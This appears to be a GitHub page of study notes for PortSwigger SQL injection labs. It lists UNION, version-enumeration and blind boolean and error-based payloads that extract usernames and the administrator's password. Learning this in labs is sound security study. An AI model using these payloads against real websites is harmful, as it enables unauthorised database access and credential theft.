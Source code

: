 # SQL Injection 

[SQL cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## UNION attack
### 1) Determining the number of columns returned by the query

> **'+UNION+SELECT+NULL,NULL--** 
>
Using the above command continue adding null values until the error disappears and the response includes additional content containing the null values.

### 2) Finding a column containing text
Try replacing each null with the random value provided by the lab, for example:
> **'+UNION+SELECT+'abcdef',NULL,NULL--**
>
If an error occurs, move on to the next null and try that instead.

### 3) Retrieving data from other tables
Use the following payload to retrieve the contents of the users table: 
> **'+UNION+SELECT+username_column,+password_column+FROM+table_name--**
>

### 4) Retrieving multiple values in a single column

Use the following payload to retrieve the contents of the users table: 
> **'+UNION+SELECT+NULL,username||'~'||password+FROM+users--**
>
the '~' is used to add values to the single column 

## Finding versions
### 5) querying the database type and version on Oracle
There is a built-in table on Oracle called DUAL which you can use for this purpose. For example: 
> **UNION+SELECT+'abc'+FROM+DUAL**
>
Use the following payload to display the database version of *ORACLE*: 
>**'+UNION+SELECT+BANNER,+NULL+FROM+v$version--**
>
Use the following payload to display the database version of *MYSQL and MICROSOFT*: 
>**'+UNION+SELECT+@@version,+NULL#**
>
listing the database contents on *non-Oracle databases*
>**'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--**
>**'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='USERS_ABCDEF'--**
>

## Blind injection
### 6) Blind SQL injection with conditional responses
Boolean injection to find password of admin, below is a boolean injection
>** TrackingId=x'+OR+1=1--**
>
below is used to find the length of password using *length()* function
>**TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+length(password)>1--**
>
To find characters of the password  using *substring()* function by changing index numbers after column name (here password)
>**TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='a'--**

### 7) conditional errors
The condition after *WHEN* should be false to get no error and is true if error occured.
>**TrackingId='+UNION+SELECT+CASE+WHEN+(username='administrator')+THEN+to_char(1/0)+ELSE+NULL+END+FROM+users--**


